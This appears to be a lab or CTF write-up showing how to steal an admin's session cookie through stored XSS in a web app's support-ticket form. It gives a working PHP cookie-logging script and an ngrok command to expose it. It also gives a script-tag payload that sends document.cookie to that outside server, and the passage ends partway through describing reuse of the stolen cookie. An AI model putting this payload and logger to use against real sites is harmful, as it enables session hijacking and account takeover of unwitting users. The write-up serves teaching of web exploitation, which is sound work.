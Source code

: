 We are giving a website with 2 users

**_A normal user page :_**


![](https://i.imgur.com/SeBIL1f.png)



**_An admin page_**



![](https://i.imgur.com/xcjIfUR.png)


**The task here is to steal the Admin cookie via stored xss, so we can automatically be logged in as admin**

## **Understanding the flow**


- Starting with a basic XSS payload i wanted to understand the flow of this application, so i sent our payload to the **Admin** via the support ticket page of the normal user

![](https://i.imgur.com/THMNNRs.png)

- Navigating to the admin page and refreshing it, we truly have stored XSS

![](https://i.imgur.com/0mXRLZ1.png)



## **Preparing our Exploit**


- First of all since we will be using **Ngrok** as our server, we need to create a Script that will take the logs of our admin and save it to a `.txt` file every time he tries to login or refresh his browser made by [@Ravid11345277](https://twitter.com/Ravid11345277). As seen below we can save this PHP code in our file system with the extension `.php`

```PHP
<?php

$ip=$_SERVER['HTTP_X_FORWARDED_FOR'];
$ua=$_SERVER['HTTP_USER_AGENT'];


$fp=fopen('cookies.txt' , 'a+');

fwrite($fp, $ip.' '.$ua."\n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). " \n\n");
fclose($fp);

?>
```



- Now start up your **Ngrok** server with the following command, where the `PHP` file was saved

```bash
$ ngrok http 80
```



![](https://i.imgur.com/PNGlTEU.png)


- Navigating to the normal user page we can craft the XSS payload that will steal the **Admin** user cookies by sending them to a remote server, which in this case is the `xss.php` file we created :

```js
<script> var i=new Image(); i.src="<NGROK-LINK-GOES-HERE>/xss.php?cookie="+document.cookie;</script>
```

- But just before we do anything let confirm if our **Ngrok** server is working by copying the forwarding link and calling the `PHP` file we created then, so your link should look like this

```
https://52c8-102-89-32-48.ngrok-free.app/{filename}.php
```

![](https://i.imgur.com/klOJ6Lz.png)


> **Note :** I added the `?test` parameter so i will see if it works when i navigate to `cookies.txt`

- Booyah, Navigating to `/cookies.txt` we can see our server is up and running, **P.N :** I blocked my public IP, you should know why 😆 

![](https://i.imgur.com/snNWgvj.png)



## **Launching Our Exploit**

Since we know things are good to go, we can take our malicious XSS payload and attempt to get the **admin** cookie in `/cookies.txt`

- Copy your malicious XSS payload and make sure to replace the `NGROK-LINK-GOES-HERE` with the right **Ngrok** server link, then we can **Submit** it to the **Admin**

```js
<script> var i=new Image(); i.src="<NGROK-LINK-GOES-HERE>/xss.php?admin_cookie="+document.cookie;</script>
```

![](https://i.imgur.com/BFAUqoa.png)


- Navigating to the **Admin** page, we can refresh the page and we have `test 2` created already

![](https://i.imgur.com/YrVmwf6.png)


- Referring back to `/cookies.txt` we have our admin cookie dumped

![](https://i.imgur.com/MbMCQdE.png)

- We can then add this cookie in our Normal **user** session by `inspecting-element` of the page and 